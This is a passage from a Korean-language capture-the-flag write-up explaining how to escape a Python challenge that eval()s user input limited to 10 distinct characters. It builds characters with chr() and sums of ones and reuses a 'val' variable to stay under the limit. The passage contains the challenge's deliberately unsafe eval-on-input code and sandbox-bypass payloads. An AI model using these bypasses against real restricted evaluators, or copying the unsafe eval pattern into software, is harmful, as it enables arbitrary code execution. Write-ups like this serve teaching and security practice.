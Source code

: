 그러므로 우리는 `exec()`는 사용할 수 없습니다. 문자제약이 `10자`있으므로 우리는 `chr()`함수와 `1+1`을 사용해 통해 모든 문자들을 만들수있습니다.

현재 사용된 문자종류갯수 : 7

```Python
>>> chr(1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1)
'#'
>>> chr(1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1)+chr(1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1)+chr(1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1)
'###'
>>> len(set("chr(1+1+1)"))
7
>>>
```

이제 `print(flag)` 문자열을 만들어 `eval()`함수로 감싸주면 `flag`가 출력될 것입니다. 그러나 여기서 `eval()`을 사용하면 글자종류가 초과됩니다.

```Python
>>> inp = "eval(chr(11+11+11+11+11+11+11+11+11+1+1+1+1+1+1+1+1+1)+chr(111+1+1+1+1))"
>>> eval(inp)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
  File "<string>", line 1, in <module>
NameError: name 'ls' is not defined
>>> len(set(inp))
11
>>>
```

글자종류가 `11`이기 때문에 글자종류를 1개 줄일 필요가 있습니다. `eval`대신 `exec`를 사용하면 문제가 해결되지만, 위에서 봤다시피 `exec`는 사용할 수 없습니다. 그러면 `eval`을 사용하되 존재하는 문자종류를 줄일 필요가 있습니다.

여기서 우리는 `eval`을 보고 `val`라는 변수가 있었다는 것을 떠올릴 수 있습니다.

```python
try:
    val = 0
    inp = input("Input value: ")
    count_digits = len(set(inp))
    if count_digits <= 10:          # Make sure it is a number
        val = eval(inp)
    else:
        raise
```

여기서 `val`의 값은 0입니다. 그러나 `all`함수를 사용하면 `True`라는 값을 만들어낼 수 있습니다. `True`는 `1`로 사용할 수 있습니다.

```Python
>>> all(chr(val))
True
>>> inp = "eval(chr(all(chr(val)))+chr(all(chr(val))))"
>>> eval(inp)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
  File "<string>", line 1

    ^
SyntaxError: invalid syntax
>>> len(set(inp))
10
>>>
```
